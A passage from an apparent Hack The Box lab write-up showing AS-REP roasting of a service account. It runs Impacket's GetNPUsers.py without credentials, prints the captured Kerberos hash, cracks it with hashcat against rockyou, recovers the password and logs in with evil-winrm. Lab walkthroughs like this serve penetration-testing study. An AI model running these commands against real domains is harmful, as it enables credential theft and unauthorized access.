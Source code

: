 ```bash
```

_svc-alfresco_ seems like a service account. I have no credentials, so first things I can try is to AS_REP responses with non-preauth. Testing out the svc-alfresco we get its hash. Now let's pray for it to be crackable with rockyou. For this task I like to use [Impacket's GetNPUsers.py](https://github.com/SecureAuthCorp/impacket). Remember to use the -no-pass flag, since we have no credentials.


```bash
python3 GetNPUsers.py htb.local/svc-alfresco -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f9e39a0df956412e0e03755ce9aac414$93314eb5b0b2ba89b0b88d3ed8a2b62f8406a38cd73fc79aabce2b11b61b4fafced31b891f05eea59885227fd8f5ddd1c1644fffa5d24298e048e904f4f755fbee0ceb9a5a6f6b854432948e46ea08be9599290ab50686f830c5a3982f87d578d3fc7f9cf94d201e58acce038b2da13b098ce883fab63dc82bb80b1b86c331cce814f613afbb1fd11270263e3a44306349cc225ef578e55cd217a033fbd6e1bd4cd9a93f221237e9280e21d3313165e1d0637b94c6a9599581479befb17db3bfb3b539471c63258f64a7c8958e7dcc1af6e084bd9300f36968c64e4c2b94e5b6404a4aea7cc4
```

Using hashcat with rockyou let us find a password:

```bash
hashcat -h

19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
 7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol

# We need to use the 18200, AS-REP, if you are not sure, check the two headers of the hash; krb5asrep and etype 23.

hashcat -m 18200 -a 0 kerb.hash /usr/share/wordlists/rockyou.tx

$krb5asrep$23$svc-alfresco@HTB.LOCAL:f9e39a0df956412e0e03755ce9aac414$93314eb5b0b2ba89b0b88d3ed8a2b62f8406a38cd73fc79aabce2b11b61b4fafced31b891f05eea59885227fd8f5ddd1c1644fffa5d24298e048e904f4f755fbee0ceb9a5a6f6b854432948e46ea08be9599290ab50686f830c5a3982f87d578d3fc7f9cf94d201e58acce038b2da13b098ce883fab63dc82bb80b1b86c331cce814f613afbb1fd11270263e3a44306349cc225ef578e55cd217a033fbd6e1bd4cd9a93f221237e9280e21d3313165e1d0637b94c6a9599581479befb17db3bfb3b539471c63258f64a7c8958e7dcc1af6e084bd9300f36968c64e4c2b94e5b6404a4aea7cc4:s3rvice
```

**svc-alfresco:s3rvice**

I used evil-winrm to try to log into the box, being successful. Didn't expect this user to have the flag, but it did, so I grabbed it.

```bash
evil-winrm -i 10.129.95.210 -u svc-alfresco -p 's3rvice'
```

